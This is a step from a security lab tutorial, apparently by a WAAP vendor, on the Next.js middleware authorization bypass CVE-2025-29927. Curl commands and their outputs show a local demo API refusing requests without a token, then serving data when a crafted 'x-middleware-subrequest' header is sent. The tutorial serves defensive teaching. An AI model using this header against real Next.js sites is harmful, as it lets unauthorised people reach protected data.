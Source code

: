 <!--
SPDX-FileCopyrightText: 2025 United Security Providers AG, Switzerland

SPDX-License-Identifier: GPL-3.0-only
-->

&#127919; In this step you will:

* Access the vulnerable Next.js demo application
* Bypass the Next.js authorization (CVE-2025-29927)

### Access the vulnerable Next.js demo application

> &#8987; Wait until the console on the right side shows `*** Scenario ready ***` before accessing the backend (otherwise you'll see an `HTTP 502 Bad Gateway` error)!

As outlined in [CVE-2025-29927 Next.js Authorization bypass analysis](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/) by JFrog Security team in March 2025, we use a vulnerable Next.js demo application to demonstrate the problematic behavior.

> &#128270; Initially the backend will be accessed unprotected (not using USP Core WAAP)

While you can [access the demo application]({{TRAFFIC_HOST1_8080}}/api/hello) using a browser, you'll see an `HTTP 401` response since no authorization was sent by the browser. Note that this small demo application for simplicity accepts a specific value used as `Authorization` Header (more details in the [demo application source code](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927/blob/main/middleware.js)).

Go ahead and make an HTTP GET request (without an authorization header) replicating the browser behavior:

```shell
curl -v http://localhost:8080/api/hello | jq
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
>
< HTTP/1.1 401 Unauthorized
< content-type: application/json
< Vary: Accept-Encoding
< Date: Wed, 06 Aug 2025 14:10:05 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{
  "error":"Unauthorized"
}
```

</details>
<br />

The application correctly responds with the message "unauthorized" (combined with HTTP Status Code 401). Now presenting the (dummy) authorization header, the backend responds with data (authorization code executed in Next.js middleware):

```shell
curl -v \
  -H "Authorization: my-jwt-token-here" \
   http://localhost:8080/api/hello \
   | jq
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> Authorization: my-jwt-token-here
>
< HTTP/1.1 200 OK
< vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch
< content-type: application/json
< Date: Wed, 06 Aug 2025 14:10:44 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{
  "message":"Hello, World"
}
```

</details>
<br />

So far we've tested access to the backend (without USP Core WAAP protection) and verified the correct backend behavior with and without an authorization header.

### Bypass the Next.js authorization (CVE-2025-29927)

Because of CVE-2025-29927 present in multiple Next.js versions (greatly analyzed in this [blog post from JFrog](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/)) not having an authorization token does not guarantee denied access to the sensitive backend!

As seen here, by using the vulnerable Next.js version 14 (up to 14.2.24), where one can send a static HTTP header **completely bypassing the Next.js Middleware authorization**:

```shell
curl -v \
  -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" \
  http://localhost:8080/api/hello \
  | jq
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
>
< HTTP/1.1 200 OK
< vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch
< content-type: application/json
< Date: Wed, 06 Aug 2025 14:09:11 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{
  "message":"Hello, World"
}
```

</details>
<br />

Without an authorization header, this request got access to the "sensitive" area, completely bypassing the Next.js middleware authorization code!

Now let's see how [header filtering](https://docs.united-security-providers.ch/usp-core-waap/latest/crd-doc/#corewaapservicespecheaderfiltering) **provided by USP Core WAAP** safeguards you in the next step!
